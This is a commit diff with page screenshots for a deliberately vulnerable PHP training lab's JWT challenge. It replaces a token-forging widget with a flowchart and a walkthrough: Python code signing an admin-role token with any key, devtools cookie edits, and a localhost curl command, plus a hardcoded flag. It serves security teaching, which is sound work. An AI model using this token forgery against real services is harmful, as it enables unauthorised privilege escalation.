

Before and after one commit to IKUN-PEPE/Pikachu-Enhanced, a PHP site: page /Exploit/vul/jwt/jwt_login.php in a window 1280 px wide. Shown: the part 56-1546 px from the top of the page at 78% size. Before the commit the page ends 978 px from the top, so only its background shows below. Run offline with PHP 8.4, Linux system fonts and the light colour scheme; data that the repository does not hold is empty.

Commit message:
refactor(jwt_login): replace auto tool with vulnerability flowchart and manual exploitation guide (Python, F12 Cookie, curl)

```diff
--- a/vul/jwt/jwt_login.php
+++ b/vul/jwt/jwt_login.php
@@ -14,7 +14,6 @@ $ACTIVE[124] = 'active';
 
 $link = connect();
 $login_msg = '';
-$tamper_msg = '';
 $flag_msg = '';
 
 // Check Flag submission
@@ -61,21 +60,10 @@ if (isset($_POST['login_submit'])) {
             setcookie('jwt_token', $token, time() + 3600, '/');
             $_COOKIE['jwt_token'] = $token;
             $current_token = $token;
-            $login_msg = "<div class='alert alert-success'><i class='fa fa-check'></i> 登录成功！服务端已下发用户 JWT 凭证至 Cookie。</div>";
+            $login_msg = "<div class='alert alert-success'><i class='fa fa-check'></i> 登录成功！服务端已下发用户 JWT 凭证至 Cookie (jwt_token)。</div>";
         } else {
             $login_msg = "<div class='alert alert-danger'><i class='fa fa-times'></i> 登录失败：用户名或密码错误。</div>";
         }
-    }
-}
-
-// Handle Tampered Token Direct Submit
-if (isset($_POST['tamper_submit'])) {
-    $custom_token = trim($_POST['custom_jwt'] ?? '');
-    if ($custom_token !== '') {
-        setcookie('jwt_token', $custom_token, time() + 3600, '/');
-        $_COOKIE['jwt_token'] = $custom_token;
-        $current_token = $custom_token;
-        $tamper_msg = "<div class='alert alert-info'><i class='fa fa-refresh'></i> 已将自定义篡改 Token 写入并完成鉴权解析！</div>";
     }
 }
 
@@ -114,14 +102,6 @@ include_once $PIKA_ROOT_DIR . 'header.php';
     margin-bottom: 24px;
     box-shadow: 0 10px 30px rgba(0,0,0,0.2);
 }
-.stage-title {
-    font-size: 22px;
-    font-weight: 800;
-    margin: 0 0 10px 0;
-    display: flex;
-    align-items: center;
-    gap: 12px;
-}
 .stage-card {
     background: var(--bg-card);
     border: 1px solid var(--border-subtle);
@@ -136,7 +116,7 @@ include_once $PIKA_ROOT_DIR . 'header.php';
     border-radius: 8px;
     padding: 12px;
     font-family: monospace;
-    font-size: 12.5px;
+    font-size: 12px;
     word-break: break-all;
     color: var(--text-primary);
 }
@@ -144,11 +124,73 @@ include_once $PIKA_ROOT_DIR . 'header.php';
     background: #020617;
     border: 1px solid #10b981;
     border-radius: 12px;
-    padding: 24px;
+    padding: 22px;
     color: #38bdf8;
     font-family: monospace;
     margin-top: 15px;
     box-shadow: 0 0 20px rgba(16, 185, 129, 0.15);
+}
+
+/* Vulnerability Flowchart Styles */
+.flow-container {
+    display: flex;
+    flex-direction: column;
+    gap: 12px;
+    margin: 16px 0;
+}
+.flow-step {
+    display: flex;
+    align-items: flex-start;
+    gap: 14px;
+    background: var(--bg-secondary);
+    border: 1px solid var(--border-subtle);
+    border-radius: 10px;
+    padding: 14px 16px;
+}
+.flow-num {
+    width: 28px;
+    height: 28px;
+    background: #2563eb;
+    color: #fff;
+    border-radius: 50%;
+    display: flex;
+    align-items: center;
+    justify-content: center;
+    font-weight: 700;
+    font-size: 13px;
+    flex-shrink: 0;
+}
+.flow-content h5 {
+    margin: 0 0 4px 0;
+    font-size: 13.5px;
+    font-weight: 700;
+    color: var(--text-primary);
+}
+.flow-content p {
+    margin: 0;
+    font-size: 12.5px;
+    color: var(--text-muted);
+    line-height: 1.5;
+}
+.flow-arrow {
+    text-align: center;
+    color: var(--primary);
+    font-size: 14px;
+    margin: -4px 0;
+}
+
+/* Manual Tab Box */
+.code-tab-box {
+    background: #020617;
+    border: 1px solid #1e293b;
+    border-radius: 10px;
+    padding: 16px;
+    color: #f8fafc;
+    font-family: monospace;
+    font-size: 12px;
+    line-height: 1.6;
+    overflow-x: auto;
+    margin: 10px 0;
 }
 </style>
 
@@ -160,7 +202,7 @@ include_once $PIKA_ROOT_DIR . 'header.php';
                 <li class="active">Stage 01: JWT 客户端状态修改与认证绕过</li>
             </ul>
             <a href="#" style="float:right" data-container="body" data-toggle="popover" data-placement="bottom" title="解题提示"
-               data-content="使用 pikachu/000000 登录后获取 Token，在右侧工具箱中将 role 改为 admin 或 level 改为 1，点击「写入 Cookie 重放请求」即可伪造管理员身份！">
+               data-content="登录拿到普通用户 Token 后，在本地使用 Python 或 Base64 工具把 Payload 中的 role 改为 admin（或 level 改为 1），再在浏览器 F12 Application -> Cookies 中修改 jwt_token 并刷新即可！">
                 <i class="fa fa-lightbulb-o text-warning"></i> 提示
             </a>
         </div>
@@ -169,19 +211,19 @@ include_once $PIKA_ROOT_DIR . 'header.php';
 
             <!-- Stage Hero -->
             <div class="stage-hero">
-                <div class="stage-title">
+                <div style="font-size:22px; font-weight:800; margin:0 0 10px 0; display:flex; align-items:center; gap:12px;">
                     <i class="fa fa-unlock-alt" style="color:#818cf8;"></i> Stage 01: JWT 客户端状态修改与越权认证
                     <span class="label label-info" style="border-radius:12px; font-size:11px; padding:3px 10px;">100 PTS</span>
                 </div>
                 <p style="margin:0; font-size:14px; color:#cbd5e1; line-height:1.6;">
-                    <b>漏洞场景：</b>当服务端将会话状态（如用户角色 <code>role</code>、权限等级 <code>level</code>）完全存放在客户端 JWT Payload 中，且在处理鉴权时<b>未对 Token 进行严谨的签名校验</b>（或前端直读 Base64 自行放行），攻击者只需对 Payload 进行 Base64 解码并篡改字段，即可实现任意身份水平/垂直越权！
+                    <b>漏洞场景：</b>当服务端将会话状态（如用户角色 <code>role</code>、权限等级 <code>level</code>）完全存放在客户端 JWT Payload 中，且在处理鉴权时<b>未对 Token 进行严谨的签名校验</b>（或仅由前端 Base64 解码自行放行），攻击者只需对 Payload 进行 Base64 解码并篡改字段，即可实现任意身份水平/垂直越权！
                 </p>
             </div>
 
             <?php echo $flag_msg; ?>
 
             <div class="row">
-                <!-- Left: Normal Login & Session Viewer -->
+                <!-- Left: Login Form & Current Session State -->
                 <div class="col-md-5">
                     <div class="stage-card">
                         <h4 style="margin:0 0 16px 0; font-size:16px; font-weight:700; color:var(--text-primary); display:flex; align-items:center; gap:8px;">
@@ -209,7 +251,7 @@ include_once $PIKA_ROOT_DIR . 'header.php';
                             </div>
                         </form>
 
-                        <div class="alert alert-info" style="border-radius:8px; font-size:12.5px; margin:0;">
+                        <div class="alert alert-info" style="border-radius:8px; font-size:12px; margin:0;">
                             <b>演示测试账号：</b><br>
                             &bull; 普通员工：<code>pikachu / 000000</code> (level: 2, role: user)<br>
                             &bull; 超级管理：<code>admin / 123456</code> (level: 1, role: admin)
@@ -227,68 +269,28 @@ include_once $PIKA_ROOT_DIR . 'header.php';
                         <div class="token-box">
                             <?php echo !empty($current_token) ? htmlspecialchars($current_token) : '<span style="color:var(--text-muted);">[暂未登录，无 Cookie Token]</span>'; ?>
                         </div>
-                    </div>
-                </div>
 
-                <!-- Right: Interactive Tampering Lab & Exploit Console -->
-                <div class="col-md-7">
-                    <div class="stage-card">
-                        <h4 style="margin:0 0 16px 0; font-size:16px; font-weight:700; color:var(--text-primary); display:flex; align-items:center; gap:8px;">
-                            <i class="fa fa-magic" style="color:var(--primary);"></i> 交互式 Token 篡改与越权提交工具箱
-                        </h4>
-
-                        <?php echo $tamper_msg; ?>
-
-                        <div class="row">
-                            <div class="col-sm-6" style="margin-bottom:12px;">
-                                <label style="font-size:12.5px; font-weight:600;">编辑 Payload JSON (Data Claims):</label>
-                                <textarea id="payload_json_editor" style="width:100%; height:130px; font-family:monospace; font-size:12px; background:var(--bg-app); border:1px solid var(--border-subtle); border-radius:6px; padding:10px; color:var(--text-primary);">{
-  "username": "pikachu",
-  "level": 1,
-  "role": "admin",
-  "iat": <?php echo time(); ?>
-}</textarea>
-                            </div>
-                            <div class="col-sm-6" style="margin-bottom:12px;">
-                                <label style="font-size:12.5px; font-weight:600;">生成或直接粘贴要提交的 Token:</label>
-                                <form method="POST">
-                                    <textarea id="tampered_token_output" name="custom_jwt" style="width:100%; height:85px; font-family:monospace; font-size:11px; background:var(--bg-app); border:1px solid var(--border-subtle); border-radius:6px; padding:8px; color:#a855f7; word-break:break-all;" placeholder="在此粘贴你的 Token 或点击下方按钮编码生成"><?php echo htmlspecialchars($current_token); ?></textarea>
-                                    <div style="margin-top:8px; display:flex; gap:8px; flex-wrap:wrap;">
-                                        <button type="button" class="btn btn-warning btn-xs" onclick="generateTamperedToken()" style="border-radius:4px; font-weight:600;">
-                                            <i class="fa fa-wrench"></i> 编码组装 Token
-                                        </button>
-                                        <button type="button" class="btn btn-info btn-xs" onclick="oneClickAdmin()" style="border-radius:4px; font-weight:600;">
-                                            <i class="fa fa-bolt"></i> 一键填入 Admin 载荷
-                                        </button>
-                                        <button type="submit" name="tamper_submit" class="btn btn-danger btn-xs" style="border-radius:4px; font-weight:600;">
-                                            <i class="fa fa-paper-plane"></i> 写入 Cookie 重放请求
-                                        </button>
-                                    </div>
-                                </form>
-                            </div>
-                        </div>
-
-                        <!-- Admin Terminal Output Area -->
+                        <!-- Admin Central Output Area (Triggered when user becomes admin) -->
                         <?php if ($is_admin) { ?>
                             <div class="admin-terminal">
-                                <div style="color:#10b981; font-weight:700; font-size:16px; margin-bottom:12px;">
+                                <div style="color:#10b981; font-weight:700; font-size:15px; margin-bottom:10px;">
                                     <i class="fa fa-shield"></i> 🎯 成功进入系统高权管理中枢 (Admin Center Disclosed)
                                 </div>
-                                <div style="color:#e2e8f0; font-size:13px; line-height:1.8;">
+                                <div style="color:#e2e8f0; font-size:12.5px; line-height:1.7;">
                                     [+] 身份鉴权通过: <b><?php echo htmlspecialchars($session_user); ?></b> (Role: <span style="color:#ef4444; font-weight:bold;"><?php echo htmlspecialchars($session_role); ?></span>, Level: <span style="color:#ef4444; font-weight:bold;"><?php echo $session_level; ?></span>)<br>
                                     [+] 鉴权漏洞: Client-side Stateless JWT Claim Tampering Bypass<br>
                                     [+] 核心机密中枢 Flag: <br>
-                                    <div style="margin:8px 0; background:rgba(245,158,11,0.15); border:1px solid #f59e0b; padding:10px; border-radius:6px;">
-                                        <span style="color:#f59e0b; font-weight:bold; font-size:15px;">flag{JWT_Auth_Bypass_Client_Tamper_Success}</span>
+                                    <div style="margin:6px 0; background:rgba(245,158,11,0.15); border:1px solid #f59e0b; padding:8px 10px; border-radius:6px;">
+                                        <span style="color:#f59e0b; font-weight:bold; font-size:14px;">flag{JWT_Auth_Bypass_Client_Tamper_Success}</span>
                                     </div>
                                     [+] 复制上方 Flag 粘贴至下方输入框提交即可通关！
                                 </div>
                             </div>
                         <?php } else { ?>
-                            <div style="background:var(--bg-secondary); border:1px dashed var(--border-subtle); border-radius:10px; padding:20px; text-align:center; color:var(--text-muted); font-size:13px; margin-top:15px;">
-                                <i class="fa fa-lock" style="font-size:24px; margin-bottom:8px; display:block; color:var(--text-muted);"></i>
-                                当前会话识别为普通用户，管理中心处于锁定状态。<br>
-                                请在上方文本框中粘贴你的 Token（或点击「一键填入 Admin 载荷」），然后点击红色的 <b>「写入 Cookie 重放请求」</b> 提交！
+                            <div style="background:var(--bg-secondary); border:1px dashed var(--border-subtle); border-radius:10px; padding:16px; text-align:center; color:var(--text-muted); font-size:12.5px; margin-top:15px;">
+                                <i class="fa fa-lock" style="font-size:20px; margin-bottom:6px; display:block; color:var(--text-muted);"></i>
+                                当前识别为普通用户，管理中心处于锁定状态。<br>
+                                请参考右侧指南手动修改 Cookie 中的 <code>jwt_token</code> 提升为管理员！
                             </div>
                         <?php } ?>
 
@@ -301,6 +303,107 @@ include_once $PIKA_ROOT_DIR . 'header.php';
                                 <i class="fa fa-check"></i> 提交 Flag
                             </button>
                         </form>
+                    </div>
+                </div>
+
+                <!-- Right: Vulnerability Architecture Flowchart & Manual Operations Guide -->
+                <div class="col-md-7">
+                    <div class="stage-card">
+                        <h4 style="margin:0 0 14px 0; font-size:16px; font-weight:700; color:var(--text-primary); display:flex; align-items:center; gap:8px;">
+                            <i class="fa fa-sitemap" style="color:var(--primary);"></i> 漏洞机理架构与攻击时序流程图
+                        </h4>
+
+                        <!-- Flowchart Diagram -->
+                        <div class="flow-container">
+                            <div class="flow-step">
+                                <div class="flow-num">1</div>
+                                <div class="flow-content">
+                                    <h5>正常登录获取初始低权 Token</h5>
+                                    <p>用户使用普通账号 <code>pikachu/000000</code> 登录，服务端下发合法 JWT (Payload 包含 <code>"role": "user", "level": 2</code>)。</p>
+                                </div>
+                            </div>
+                            <div class="flow-arrow"><i class="fa fa-arrow-down"></i></div>
+
+                            <div class="flow-step">
+                                <div class="flow-num" style="background:#ef4444;">2</div>
+                                <div class="flow-content">
+                                    <h5 style="color:#ef4444;">客户端抓包截获并 Base64 解码篡改</h5>
+                                    <p>JWT 由 <code>Header.Payload.Signature</code> 三段组成。攻击者取出中间的 Payload 做 Base64 解码，将权限字段篡改为 <code>"role": "admin", "level": 1</code>。</p>
+                                </div>
+                            </div>
+                            <div class="flow-arrow"><i class="fa fa-arrow-down"></i></div>
+
+                            <div class="flow-step">
+                                <div class="flow-num" style="background:#f59e0b;">3</div>
+                                <div class="flow-content">
+                                    <h5 style="color:#f59e0b;">组装篡改后的 Token 并重新写入 Cookie</h5>
+                                    <p>重新对 Payload 进行 Base64URL 编码，拼接任意签名段（如 <code>Header.NewPayload.AnySignature</code>），写入浏览器的 <code>Cookie: jwt_token</code>。</p>
+                                </div>
+                            </div>
+                            <div class="flow-arrow"><i class="fa fa-arrow-down"></i></div>
+
+                            <div class="flow-step">
+                                <div class="flow-num" style="background:#10b981;">4</div>
+                                <div class="flow-content">
+                                    <h5 style="color:#10b981;">服务端「只解码、不验签」导致直接越权</h5>
+                                    <p>有缺陷的服务端直接调用 <code>json_decode(base64_decode())</code> 信任了 Payload 中的角色属性，判定为管理员并返回高权数据与 Flag！</p>
+                                </div>
+                            </div>
+                        </div>
+
+                        <hr style="border-color:var(--border-subtle);">
+
+                        <!-- Manual Operation Tutorials -->
+                        <h4 style="margin:0 0 12px 0; font-size:16px; font-weight:700; color:var(--text-primary); display:flex; align-items:center; gap:8px;">
+                            <i class="fa fa-terminal" style="color:var(--primary);"></i> 手动操作实战指南 (任选一种方法)
+                        </h4>
+
+                        <!-- Method 1: Python Script -->
+                        <div style="margin-bottom:16px;">
+                            <div style="font-size:13px; font-weight:700; color:var(--primary);">
+                                <i class="fa fa-code"></i> 方法一：使用 Python 脚本生成伪造 Token
+                            </div>
+                            <p style="font-size:12px; color:var(--text-muted); margin:4px 0;">在本地终端打开 Python 交互环境（<code>python</code>），执行以下代码生成你的管理员 Token：</p>
+                            <div class="code-tab-box">
+<span style="color:#60a5fa;">import</span> jwt
+
+<span style="color:#94a3b8;"># 构造包含管理员角色的 Payload</span>
+admin_payload = {
+    <span style="color:#a5b4fc;">"username"</span>: <span style="color:#34d399;">"pikachu"</span>,
+    <span style="color:#a5b4fc;">"level"</span>: <span style="color:#f59e0b;">1</span>,
+    <span style="color:#a5b4fc;">"role"</span>: <span style="color:#34d399;">"admin"</span>,
+    <span style="color:#a5b4fc;">"iat"</span>: <span style="color:#f59e0b;">1787035367</span>
+}
+
+<span style="color:#94a3b8;"># 使用任意自定义密钥签名生成 Token</span>
+token = jwt.encode(admin_payload, <span style="color:#34d399;">"my_secret_key"</span>, algorithm=<span style="color:#34d399;">"HS256"</span>)
+<span style="color:#60a5fa;">print</span>(token)
+</div>
+                        </div>
+
+                        <!-- Method 2: Browser F12 Manual Cookie Edit -->
+                        <div style="margin-bottom:16px;">
+                            <div style="font-size:13px; font-weight:700; color:#10b981;">
+                                <i class="fa fa-mouse-pointer"></i> 方法二：通过浏览器 F12 修改 Cookie 提交
+                            </div>
+                            <div style="font-size:12.5px; color:var(--text-secondary); line-height:1.6; margin-top:4px;">
+                                1. 按键盘 <b>F12</b> 打开开发者工具，切换到 <b>Application (应用)</b> 或 <b>Storage (存储)</b> 标签页。<br>
+                                2. 在左侧展开 <b>Cookies &rarr; http://127.0.0.1:8765</b>。<br>
+                                3. 找到名为 <b><code>jwt_token</code></b> 的条目，双击 <b>Value</b> 字段，粘贴你生成的管理员 Token。<br>
+                                4. 按 <b>F5 刷新当前网页</b>，页面就会立即识别为超级管理员并展示 Flag！
+                            </div>
+                        </div>
+
+                        <!-- Method 3: curl command -->
+                        <div>
+                            <div style="font-size:13px; font-weight:700; color:#f59e0b;">
+                                <i class="fa fa-globe"></i> 方法三：使用 curl 命令行直接验证
+                            </div>
+                            <div class="code-tab-box" style="white-space:pre-wrap; word-break:break-all;">
+curl.exe -s -b <span style="color:#34d399;">"jwt_token=你的管理员Token"</span> http://127.0.0.1:8765/vul/jwt/jwt_login.php | findstr <span style="color:#34d399;">"flag{"</span>
+</div>
+                        </div>
+
                     </div>
                 </div>
             </div>
@@ -319,35 +422,4 @@ include_once $PIKA_ROOT_DIR . 'header.php';
     </div>
 </div>
 
-<script>
-function b64url_encode(str) {
-    var b64 = window.btoa(unescape(encodeURIComponent(str)));
-    return b64.replace(/\+/g, '-').replace(/\//g, '_').replace(/=+$/, '');
-}
-
-function generateTamperedToken() {
-    var header = { "alg": "HS256", "typ": "JWT" };
-    var payloadStr = document.getElementById('payload_json_editor').value.trim();
-    try {
-        var payloadObj = JSON.parse(payloadStr);
-        var hEnc = b64url_encode(JSON.stringify(header));
-        var pEnc = b64url_encode(JSON.stringify(payloadObj));
-        var fakeSig = "tampered_signature_payload_insecure";
-        document.getElementById('tampered_token_output').value = hEnc + '.' + pEnc + '.' + fakeSig;
-    } catch(e) {
-        alert("Payload 不是合法的 JSON 格式，请检查语法！");
-    }
-}
-
-function oneClickAdmin() {
-    document.getElementById('payload_json_editor').value = JSON.stringify({
-        "username": "pikachu",
-        "level": 1,
-        "role": "admin",
-        "iat": Math.floor(Date.now() / 1000)
-    }, null, 2);
-    generateTamperedToken();
-}
-</script>
-
 <?php include_once $PIKA_ROOT_DIR . 'footer.php'; ?>
```
